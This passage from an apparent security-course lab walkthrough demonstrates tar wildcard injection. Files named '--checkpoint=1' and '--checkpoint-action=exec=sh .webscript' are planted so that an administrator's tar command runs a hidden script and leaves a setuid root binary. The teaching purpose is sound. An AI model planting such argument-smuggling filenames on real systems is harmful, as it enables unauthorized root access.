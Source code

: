 - Getting this exploit to work obviously requires that the sysadmin create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.
Next, we’ll list the contents of our directory to show that our hidden malicious program and checkpoint files have been created. 

- Run: `ls -la`
    ```
    drwxr-xr-x 3 instructor instructor 4096 Dec 28 18:41  .
    drwxr-xr-x 3 instructor instructor 4096 Dec 20 13:05  ..
    drwxr-xr-x 2 instructor instructor 4096 Dec 28 18:40  .cache
    -rw-rw-r-- 1 instructor instructor    0 Dec 28 18:41 '--checkpoint=1'
    -rw-rw-r-- 1 instructor instructor    0 Dec 28 18:41 '--checkpoint-action=exec=sh .webscript'
    -rw-rw-r-- 1 instructor instructor  535 Dec 28 18:41  .webscript
    -rw-rw-r-- 1 instructor instructor 3699 Dec 28 18:21  wildpwn.py
    ```

Note the following about this output:

- There is a new directory called `.cache` that we will explore in just a moment. 

- The directory contains two files: `--checkpoint=1` and  `--checkpoint-action=exec=sh .webscript` 

- These are files whose names look like `tar` commands. Normal users would never use such filenames: this is something that only hackers would do.

- The `.webscript` contains the malicious code that was planted by running the `wildpwn.py` program.

What do you think the file `--checkpoint-action=exec=sh .webscript` will do if it’s interpreted as a checkpoint command?

  - When an administrator uses `tar` to create an archive containing this file, it will cause `tar` to run the program `.webscript` as a checkpoint command. Note that the period `.` before `webscript` indicates that it is a hidden file. It can be displayed using the `-a` switch.  

Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them. 

We will next show how this malicious code will get executed when an unsuspecting administrator runs the `tar` command with a wildcard character.

- Move into the new `.cache` directory and list the files located inside.

    ```
    instructor@ubuntu-vm:~/Documents/exploit_demo$ cd .cache
    instructor@ubuntu-vm:~/Documents/exploit_demo.cache$ ls -la
    total 20
    drwxr-xr-x 2 root       root       4096 Jan  3 13:54 .
    drwxr-xr-x 8 instructor instructor 4096 Jan  6 10:50 ..
    -rwsr-xr-x 1 root       root       8392 Jan  3 13:54 .cachefile
    ```
There is just one file located here, called `.cachefile`, and that it is executable.

- Run: `./.cachefile` to execute it.
